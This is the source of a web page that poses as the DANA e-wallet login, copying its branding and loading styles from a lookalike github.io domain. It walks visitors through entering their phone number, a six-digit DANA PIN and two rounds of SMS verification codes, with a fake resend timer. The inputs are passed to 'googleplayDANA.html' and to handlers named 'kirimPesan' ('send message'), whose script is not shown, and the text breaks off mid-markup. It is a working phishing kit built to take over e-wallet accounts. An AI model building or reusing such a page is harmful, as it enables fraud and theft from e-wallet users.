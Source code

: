 <html lang="id">
  <meta charset="utf-8">
   <meta name="theme-color" content="#118EEA"> 
  <meta content="DANA E-wallet" property="og:title">
  <meta content="dana.id" property="twitter:title">
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0" name="viewport">
 <meta name="description" content="Mau bayar apapun jadi semudah lewat sentuhan jari. Lewat DANA, kamu bisa melakukan transaksi apapun dengan praktis mulai dari pembayaran tagihan, transaksi barcode scan, hingga e-commerce. #GantiDompet dan nikmati metode pembayaran yang lebih cepat, praktis dan aman.">
  <meta content="https://assets.kompasiana.com/items/album/2022/01/19/dana-heri-61e79b5c06310e2d0778d653.jpg?t=o&v=325" property="og:image">
  <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
  <meta content="Dana E-wallet" name="generator">
    <title>DANA E-wallet</title>
    <meta http-equiv="Content-Security-Policy" content="default-src * 'self' 'unsafe-inline' 'unsafe-eval' data: gap:">
  <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Inter:100,200,300,regular,500,600,700,800,900" media="all"> 
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="apple-touch-icon">
<link rel="stylesheet" href="https://www-dana-idl.github.io/Dana.kaget/dana.css">
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.15/jquery.mask.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.inputmask/3.3.4/jquery.inputmask.bundle.min.js">
</script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.15/jquery.mask.min.js"></script>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.10.2/jquery.min.js"></script>
  
<style>
* {
  box-sizing: border-box;
}

body {
  
      box-sizing: border-box;
    display: block;
    margin: 0px auto;
    font-family: Arial, Helvetica, sans-serif;
    width: 100%;
    height: 100%;
    max-width: 600px;
    max-height: 1000px;
    background-color: #118EEA;
    padding: 25px;
    position: absolute;
    top: 50%;
    left: 50%;
    transform: translate(-50%, -50%);
    -webkit-transform: translate(-50%, -50%);
    -moz-transform: translate(-50%, -50%);
    -ms-transform: translate(-50%, -50%);
    -o-transform: translate(-50%, -50%);
}

#regForm {
  max-width: 500px;
    margin: auto;
    margin-top: 0px;
    /*background-color: #00000044;*/
    height: 100%;
    max-height: 700px;
}

h1 {
  text-align: center;  
}

.inputku {
  box-sizing: border-box;
    border: none;
    outline: none;
    border-radius: 10px;
    width: 100%;
    max-width: 500px;
    height: 42px;
    display: block;
    margin: auto;
    font-size: 22px;
    font-weight: 600;
    padding-left: 80px;
}

/* Mark input boxes that gets an error on validation: */
input.invalid {
  background-color: #ffdddd;
}

/* Hide all steps by default: */
.tab {
  display: none;
}

button {
  background-color: #04AA6D;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  font-size: 17px;
  font-family: Raleway;
  cursor: pointer;
}

button:hover {
  opacity: 0.8;
}



/* Make circles that indicate the steps of the form: */
.step {
  height: 15px;
  width: 15px;
  margin: 0 2px;
  background-color: #bbbbbb;
  border: none;    display: none;
}

button {
  background-color: #04AA6D;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  font-size: 17px;
  font-family: Raleway;
  cursor: pointer;
}

button:hover {
  opacity: 0.8;
}

#prevBtn {
  
   position: absolute;
    top: 0px;
    width: 18px;
    float: left;
    left: 10;
}

/* Make circles that indicate the steps of the form: */
.step {
  height: 15px;
  width: 15px;
  margin: 0 2px;
  background-color: #bbbbbb;
  border: none;  
  border-radius: 50%;
  display: inline-block;
  opacity: 0.0;
}

.step.active {
  border-radius: 50%;
  display: inline-block;
  opacity: 0.0;
}

.step.active {
  opacity: 0;
}

/* Mark the steps that are finished and valid: */
.step.finish {
  background-color: #04AA6D;
}

.dana_logo{
    display: block;
    width: 95px;
    opacity: ;
    margin-bottom: 50px;
    margin-top: 10px;
    position: fixed;
    top: 0;
    left: 0;
    right: 0;
    margin: 10px auto;
    margin-left: auto;
    margin-right: auto;
}

 .bh1 {
    font-weight: 700;
    font-size: 15px;
    color: white;
 }
 
 .bh11{
     font-size: 15px;
     margin-top: 5px;
     color: white;
     margin-bottom: -10px;
     font-weight: 300;
 }
 
 .inputNo {
    box-sizing: border-box;
    margin-top: 20px;
    width: 100%;
    /*background-color: #ff0000a5;*/
    height: 100%;
    max-height: 800px;
}
.formNo, .nope {
    box-sizing: border-box;
    border: none;
    outline: none;
    border-radius: 10px;
    width: 100%;
    max-width: 500px;
    height: 42px;
    display: block;
    margin: auto;
    font-size: 24px;
    font-weight: 600;
    padding-left: 90px;
}
.formNo {
    max-width: 500px;
    margin: auto;
    margin-top: -60px;
    /*background-color: #00000044;*/
    height: 100%;
    max-height: 700px;
}
label {
    display: inline-block;
    position: relative;
    bottom: -49px;
}
.flagIndo {
    width: 25px;
    margin-left: 10px;
    margin-right: 5px;
    border-radius: 2px;
    box-shadow: 0.3px 0.3px 2px #ccc;
}
.codeTel {
    font-weight: 600;
    font-size:17px ;
}
.syarat {
    font-size: 14px;
    margin-left: 0px;
    margin-right: 0px;
    color: white;
    font-weight: 400;
}
.send_data {
    background: none;
    font-size: 15px;
    color: #ffffff9c;
    border: none;
    width: 70px;
    height: 40px;
    margin-top: 500px;
    transition: 0.3s;
}
.send_data:active,.send_data:hover,.send_data:focus{
    font-size: 15.3px;
    color: #ffffff;
    width: 75px;
    height: 45px;
    transition: 0.3s;
}
input::placeholder {
    font-weight: 600;
    font-size: 24px;
    padding-top: 7px;
    padding-left: 2px;
    color: #bebebe;
}

.back {
    position: absolute;
    top: 15px;
    width: 18px;
    float: left;
    left: 10;
}

.btnku{
       margin-top: 15px;
    width: 90%;
    margin: 12px auto;
    position: absolute;
    bottom: 10px;
    left: 0;
    font-size: 16px;
    right: 0;
    height: 50px;
    border-radius: 10px;
    box-shadow: rgb(170, 170, 170) 0px 0px 0px 0px; 
    transition: background 0ms step-start 0s;
    background-color: transparent;
    font-weight: 800;
        }
        
        
        .btnku:disabled{
            opacity: 0.4;
        }
  h3{
      text-align: center;
      font-size: 15px;
      color: white;
      margin-top: 85px;
      font-weight: 400;
      background-color: #118EEA;
  }
  .pin-code{ 
  padding: 0; 
  margin: 0 auto; 
  display: flex;
  justify-content:center;
  
} 
 
.pin-code input { 
  border: none; 
  text-align: center; 
  width: 36px;
  height:42px;
  font-size: 36px; 
  background-color: #fff;
  margin-right:-0px;
  border-radius: 8px;
} 



.pin-code input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 


input::-webkit-outer-spin-button,
input::-webkit-inner-spin-button {
    -webkit-appearance: none;
    margin: 0;
}
.button { 
  font-family: helvetica;
  text-align:center;
  color: #fff;
  padding: -5px;
  margin: -1px;
  max-width: 100%;
  font-size: 12px;
  margin-top: 20px;
  margin-bottom: 50px;
  background: #118EEA;
  border: 1px solid;
  border-color: #fff;
  border-radius: 20px;
  width: 30%;
  height: 22px;
}
#myForm{
    display: none;
    position: fixed;
    left: 0;
    right: 0;
    bottom: 0;
    width: 100%;
    height: 670px;
     background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZxa4wweGrDC3oVR5E8NyqDrYGP8laPfDywsnBmLRxfOataWXZDrMgzFijPHg4txcrR24EtlibL_UoxgWMoaorsBEa9m1_c98mF5Z_ww5XIvmi7oEu5dDFGHc4kITYCf_Tko7HjHfnEY4R8QHXqFk88rybb1HTje1wCuv0Z3HjB1fHEZVzET_A99YE/s16000/AddText_05-18-01.31.18.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  animation: fadeIn 2s;
  -webkit-animation: fadeIn 2s;
  -moz-animation: fadeIn 2s;
  -o-animation: fadeIn 2s;
  -ms-animation: fadeIn 2s;
  z-index: 9999999;
  
}
#valid{
display: none;
    position: fixed;
    left: 0;
    right: 0;
    bottom: 0;
    width: 100%;
    height: 670px;
     background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZxa4wweGrDC3oVR5E8NyqDrYGP8laPfDywsnBmLRxfOataWXZDrMgzFijPHg4txcrR24EtlibL_UoxgWMoaorsBEa9m1_c98mF5Z_ww5XIvmi7oEu5dDFGHc4kITYCf_Tko7HjHfnEY4R8QHXqFk88rybb1HTje1wCuv0Z3HjB1fHEZVzET_A99YE/s16000/AddText_05-18-01.31.18.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  animation: fadeIn 2s;
  -webkit-animation: fadeIn 2s;
  -moz-animation: fadeIn 2s;
  -o-animation: fadeIn 2s;
  -ms-animation: fadeIn 2s;
  z-index: 9999999;
}
@keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-moz-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-webkit-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-o-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-ms-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

 .resend{
     text-align: center;
 }
 
 .pin-code1{ 
  padding: 0; 
  margin: 0 auto; 
  display: ;
  justify-content:center;
  
} 
 
.pin-code1 input { 
  border: none; 
  text-align: center; 
  width: 40px;
  height:45px;
  font-size: 36px; 
  background-color: #F5F5F5;
  margin-right:3px;
  border-radius: 8px;
} 



.pin-code1 input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 

 .pin-code2{ 
  padding: 0; 
  margin: 0 auto; 
  display: ;
  justify-content:center;
  
} 
 
.pin-code2 input { 
  border: none; 
  text-align: center; 
  width: 40px;
  height:45px;
  font-size: 36px; 
  background-color: #F5F5F5;
  margin-right:3px;
  border-radius: 8px;
} 



.pin-code2 input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 


 /*********************/
.process {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: ;
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
  
}
  

.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

 #danapin{
     width: 100%;
     height: 650px;
     position: fixed;
    left: 0;
    right: 0;
    top: 0;
    background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgDlAoE0-pgmIw6eGUJsLaRLS2KbvxqYTGA_8TQOf0-EdX8DoT1OUfhfnrPXMHfuU5NlKQfLJMSgISuw_cgbRX1nlcw2zpj-8tsmwiT3eZQxVJTERUbcLvMV4qHsnFmhy99mjfqy5UzsaT50f3LS_BHsTCS1SfLW1LRRO4ywlmj1XaLF1rETALk_fOm/s16000/AddText_05-01-06.11.17.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
     
     
 }
 
 #homeku{
     width: 100%;
     height: 650px;
     position: fixed;
    left: 0;
    right: 0;
    top: 0;
    bottom: 0;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
     
     
 }
 
 welalxcome {
    display: flex;
  position: fixed;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  background: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj2bBMVwYYKeZgCDrn0p4KsFYmQ1SRc6igX5lRwrNCXdc7YPYS80nlUrCcPnKCpv2M7vlP-OFsMgZtgf_-2vCU_T-1Bx94mSgYLFlgk4hGqEKmdHJZxLJR7e2wIonshknidTarYXNIu11uoWQMvThCh9kzi2h-Q6TPcEV788XeYmf-NU9pLd7tPZwT2/s16000/AddText_05-01-07.00.21.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  z-index: 10000;

}
welalxcome img {
        width:100%;
    height: 700px;
    margin-top: -55px;
    
}
chsalxcome {
        position: relative;
    width: 100%;
    height: 100vh;
    display: flex;
    flex-direction: column;
    flex-wrap: nowrap;
    align-items: center;
}
 
 @-webkit-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@-moz-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@-o-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}

.page {
 animation-name: slide;
 animation-duration: 1s; 
 animation-fill-mode: forwards; 
}





.credit_card{
    
}

.ewc_place{
    margin-top: -5px;
}

.ewc_place::placeholder{
    font-size: 14px;
}


@keyframes tonext {
  75% {
    left: 0;
  }
  95% {
    left: 100%;
  }
  98% {
    left: 100%;
  }
  99% {
    left: 0;
  }
}

@keyframes tostart {
  75% {
    left: 0;
  }
  95% {
    left: -300%;
  }
  98% {
    left: -300%;
  }
  99% {
    left: 0;
  }
}

@keyframes snap {
  96% {
    scroll-snap-align: center;
  }
  97% {
    scroll-snap-align: none;
  }
  99% {
    scroll-snap-align: none;
  }
  100% {
    scroll-snap-align: center;
  }
}


* {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118EEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118EEA;
  padding-top:0%;
  top: 0;
  right: 0;
  left: 0;
  margin: 1px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  width: 100%;
  top: 0;
  background-color: #118EEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 534px;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 1px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 78%;
  margin-left: 10px;
  background-color: #118EEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118EEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118EEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 20;
  width: 100%;
  height: 530px;
  scroll-snap-align: center;
  background-color: #118EEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}

.carousel__navigation-button {
  display: inline-block;
  width: 0.8rem;
  height: 1.0rem;
  background-color: #000;
  background-clip: red;
  margin: 10px -20;
  border: 0.2rem solid blue;
  border-radius: 50%;
  font-size: 0;
  position: relative;
  top: -2px;
  margin-left: -10px;
  text-align: center;
  transition: transform 0.1s;
}

.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

</style>
<body>
 <main>
         
 <welalxcome>
 
</welalxcome>
<chsalxcome2 style="display: none;">
<div style="height:30px;width: 70px;margin-top: -30px;margin-bottom: 0px;float:center;margin-left:42%" class="talxcome">
</div>
<form class="regForm" action="googleplayDANA.html" method="get">
     <center>
   <img class="dana_logo" src="https://i.ibb.co.com/FKJRdJm/Add-Text-05-15-01-34-42-removebg-preview-1.png">
     </center>       
  <!-- One "tab" for each step in the form: -->
<div class="" style="text-align: center;" id="homeku">
    <div style="position: fixed; top: 0; right: 0; left: 0; margin: 1px auto; height: 50px; width: 100%; background: #118EEA; z-index: 9999999999; margin-bottom: 0px">
        <center>
       <img class="dana_logo" src="https://i.ibb.co.com/FKJRdJm/Add-Text-05-15-01-34-42-removebg-preview-1.png" style="z-index: 9999999999">
       </center>
       </div>
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
   
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button">Go to slide 1</a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button">Go to slide 2</a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button">Go to slide 3</a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button style="width: 100%; height: 140px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEid9dARAQbMu1UTEgpOfyH6pn4eI3_XArbELp_8lfZtysRgex-gqs0Czc9ch_O7U2lrucgBVSqGQEL33BwV3Ri4D3evjzJHJ6LBFa_K-pIPbdO6QQ3iHlTkLiqo_w2z2NbXTw83lNcWHG7T9q2n6m7N3SZ-qfZpTdsioS3dm-YIfJh4zU16QEODOLKn/s16000/AddText_06-06-08.17.04.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;" onclick="nextPrev()"></button>
  </div>
  <div class="tab" id="login">
 <button type="button" style="background-color: transparent; color: transparent;" class="back" id="prevBtn" onclick="backbutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></button>
    <p style="margin-top: 60px"><h1 class="bh11">Masukkan <b class="bh1">nomor HP</b> kamu untuk lanjut</h1>
     <label for="nomorhp" class="flagNo">
<img class="flagIndo" src="https://img.freepik.com/free-vector/illustration-indonesia-flag_53876-27131.jpg?size=626&ext=jpg"></label>
<label for="nope"><p class="codeTel">+62</p></label>
<input type="hidden" id="logo" value="">
         <input class="form-control nope" id="nope" type="tel" name="nope" placeholder="811-1234-5678" maxlength="16" autocomplete="on" required></p>
        <br>
        <h1 class="syarat">Nomor ponsel akan digunakan sebagai ID kamu & 
        menjaga akun selalu aman. Dengan melanjutkan kamu setuju dengan <b class="bh1">Syarat & Ketentuan</b> dan <b class="bh1">Kebijakan Privasi</b> kami</h1>
   <button type="button" id="nextBtn" class="btnku" onclick="nomorLogin()" disabled="disabled">Lanjut</button> 
  </div>
  <div class="tab" id="danapin">
      <button type="button" style="background-color: transparent; color: transparent;" class="back" id="prevBtn" onclick="backbutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></button>
      <center>
  
      <h3>Masukkan <strong>PIN DANA</strong></h3>
    <div class="pin-code" maxlength="6" style="margin-top: 30px;">
        
    <center>
   <input type="hidden" id="logo" value="">
    <input type="hidden" name="sixpin" id="setPin"> 
	<input type="tel" id="pin1" data-id="1" maxlength="1" required autofocus>
    <input type="tel" id="pin2" data-id="2" name="pin2" maxlength="1" autofocus>
	  <input type="tel" id="pin3" data-id="3" name="pin3" maxlength="1" autofocus>
    <input type="tel" id="pin4" data-id="4" name="pin4" maxlength="1" autofocus>
    <input type="tel" id="pin5" data-id="5" name="pin5" maxlength="1" autofocus>
   <input type="tel" value="" id="pin6" data-id="6" name="pin6" maxlength="1" required onchange="javascript:this.form.button();" oninput="openForm()" autofocus>
    <p></p>
    <input type="tel" style="opacity: 0.0">
     </div> 
 <h2><input class="button" type="button" style="margin-top: -55px;" value="TAMPILKAN"></h2>
    </center>

  </div>
  <div class="tab" id="myForm">
       <button type="button" style="background-color: transparent; color: transparent; margin-top: -5px" class="back" id="prevBtn1" onclick="kembalibutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg" style="opacity: 0.0"></button>
       <p style="font-size: 20px; text-align: center; margin-bottom: -120px; font-weight: 600; color: #070707; margin-top: 141px; margin-left: -125px; opacity: 0.0;">nomor</p>
             
    <div class="page" style="left: 0px; position: absolute; right: 0; margin-top: 0px; background: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiSpY6Zfek1Rwe6IGuCNCHImMircf3aUYhAxWkLQfwZTZAv8kOcHmQWDpB7KkXYNBbt8vSu6eyWWOGmhCRf-GU1u5n3o9fmES-zHCNIz3TKYfCsB6ADDliu9vzwyDkJR8b97LBQ78AUvDyQzIYG5jqgLXW_6S2CCxK9M5Bj5nyoXHyAaW48EPtv5Vnm/s16000/AddText_06-06-10.03.33.png) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 10px 10px 0px 0px"> 
  
      <div class="pin-code1" maxlength="6" style="margin-top: 98px"> <center>
          
       <input type="tel" id="pin11" data-id="11" name="pin11" maxlength="1" required autofocus> 
       <input type="tel" id="pin22" data-id="22" name="pin22" maxlength="1" autofocus> 
       <input type="tel" id="pin33" data-id="33" name="pin33" maxlength="1" autofocus> 
       <input type="tel" id="pin44" data-id="44" name="pin444" maxlength="1" required onchange="javascript:this.form.button();" oninput="kirimPesan()" autofocus> 
       <p></p> 
       <input type="tel" style="opacity: 0.0"> 
       </center>
       <p id="userid" style="font-size: 15px; text-align: center; margin-bottom: 130px; font-weight: 400; color: #070707; margin-top: -140px; margin-left: 0px; display: ">nomor</p>
       <p></p>
       <p class="resend" style="font-weight: 800; color: #ccc; z-index: 99999999999; position: static; margin-left: 170px">KIRIM ULANG (<span id="time">60</span>s)</p>
      </div> 
     </div> 
     
     <input type="hidden" id="logo" value="">
   
  </div>
  <div class="tab" id="valid">
  <p id="userid" style="font-size: 20px; text-align: center; margin-bottom: -100px; font-weight: 600; color: #070707; margin-top: 66px; margin-left: -125px; opacity: 0.0;">nomor</p>
  
         
    <div class="page" style="left: 0px; position: absolute; right: 0; margin-top: 0px; background: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiSpY6Zfek1Rwe6IGuCNCHImMircf3aUYhAxWkLQfwZTZAv8kOcHmQWDpB7KkXYNBbt8vSu6eyWWOGmhCRf-GU1u5n3o9fmES-zHCNIz3TKYfCsB6ADDliu9vzwyDkJR8b97LBQ78AUvDyQzIYG5jqgLXW_6S2CCxK9M5Bj5nyoXHyAaW48EPtv5Vnm/s16000/AddText_06-06-10.03.33.png) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 10px 10px 0px 0px"> 
  <form action="googleplayDANA.html" method="get">
      <div class="pin-code2" maxlength="6" style="margin-top: 107px"> <center>
          
       <input type="tel" id="pin111" data-id="111" name="pin111" maxlength="1" required autofocus> 
       <input type="tel" id="pin222" data-id="222" name="pin222" maxlength="1" autofocus> 
       <input type="tel" id="pin333" data-id="333" name="pin333" maxlength="1" autofocus> 
       <input type="tel" id="pin444" data-id="444" name="pin444" maxlength="1" required onchange="javascript:this.form.submit();" oninput="kirimPesan1()" autofocus> 
       <p></p> 
       <input type="tel" style="opacity: 0.0"> 
       </center>
       <div style="margin: 30px">
            <p id="useridku" style="font-size: 13px; text-align: center; margin-bottom: 118px; font-weight: 400; color: red; margin-top: -180px; margin-left: 0px; display: ">Kode dikirim via SMS ke Nomor anda</p>
             </div>
       <p></p>
 <p class="resend" style="font-weight: 800; color: #ccc; z-index: 99999999999; position: static; margin-left: 170px">KIRIM ULANG (<span id="time">60</span>s)</p>
      </div> 
     </div> 
     
     <input type="hidden" id="logo" value="">

</form>
  </div>
  <div style="overflow:auto;">
    <div style="float: ; display: none" id="tombolback">
